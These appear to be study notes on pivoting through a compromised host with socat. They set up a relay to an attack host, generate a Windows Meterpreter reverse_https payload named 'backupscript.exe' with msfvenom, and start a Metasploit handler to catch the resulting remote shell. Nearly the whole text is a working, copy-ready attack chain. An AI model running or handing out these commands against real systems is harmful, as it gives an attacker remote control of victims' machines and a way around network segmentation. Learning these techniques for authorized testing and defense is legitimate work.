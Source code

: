 
Socat is a bidirectional relay tool that can create pipe sockets between 2 independent network channels without needing to use SSH tunneling.

**Starting Socat Listener (on pivot host)
```shell-session
socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```
- socat listens on localhost port 8080 and forward all the traffic to port 80 on our attack host

**Creating the Windows Payload
```shell-session
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```
- Transfer payload to the Windows host


**Configuring & Starting the multi/handler
```shell-session
use exploit/multi/handler
```
```shell-session
set payload windows/x64/meterpreter/reverse_https
```
```shell-session
set lhost 0.0.0.0
```
```shell-session
set lport 80
```
```shell-session
run
```
```shell-session
getuid
```
